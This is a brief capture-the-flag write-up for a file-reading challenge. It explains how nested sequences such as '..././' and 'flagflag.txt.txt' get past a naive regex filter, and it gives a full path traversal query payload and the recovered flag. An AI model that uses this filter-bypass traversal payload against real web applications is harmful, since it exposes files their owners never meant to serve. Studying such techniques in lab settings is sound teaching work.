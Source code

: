 # Proof of Concept

## TL;DR

- The challenge applies a naïve regex filter that removes `../` and `flag.txt`.
- By using `..././`, the filter mistakenly transforms it into ../, enabling directory traversal.
- To bypass the flag.txt filter, we can request `flagflag.txt.txt`, which becomes `flag.txt` after regex replacement.
- Combining both tricks, the payload is:

```bash
?file=..././..././..././..././..././..././..././..././..././..././flagflag.txt.txt
```

### Flag:

> `HCS{k4mu_k0k_j4g0_b4ng3t_s1h_b4n9_m44f_ya_soalny4_t3rlalu_g4mp4ng_bu4t_k4mu_:3}`

